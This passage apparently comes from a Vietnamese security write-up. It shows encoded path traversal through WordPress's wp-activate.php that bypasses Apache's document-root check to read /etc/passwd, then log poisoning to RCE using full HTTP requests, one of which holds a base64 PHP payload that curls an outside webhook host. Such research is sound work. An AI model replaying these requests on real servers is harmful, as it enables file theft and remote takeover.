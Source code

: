 **Debug**:
{{< figure src="debug2.png" caption="Debugger với valid payload" >}}

**Result**:

{{< figure src="result1.png" caption="Kết quả LFI thành công" >}}

**Giải thích**:

`/x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/etc/passwd?` sau khi decode sẽ trở thành `/x/wp-activate.php/..///..///..///..///../etc/passwd?`

Ta dùng chuỗi này để đánh lừa Apache, khiến Apache không phát hiện việc vượt **Document Root**. Nếu dùng `/x/wp-activate.php/../../../../../etc/passwd?` sẽ bị phát hiện vượt **Document Root**.

`///` vẫn được chấp nhận tương đương `/`, ví dụ:

```bash
w41bu1@22NS088:~$ ls /////////
bin  boot  cdrom  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  swap.img
```

### Log poisoning → LFI → RCE

#### Step 1
Gửi request với PHP code đặt trong `User-Agent` header

```http {hl_lines=[3]}
GET / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu;<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?> Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

#### Step 2

Gửi request với LFI payload trỏ đến `/var/log/apache2/other_vhosts_access.log`

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```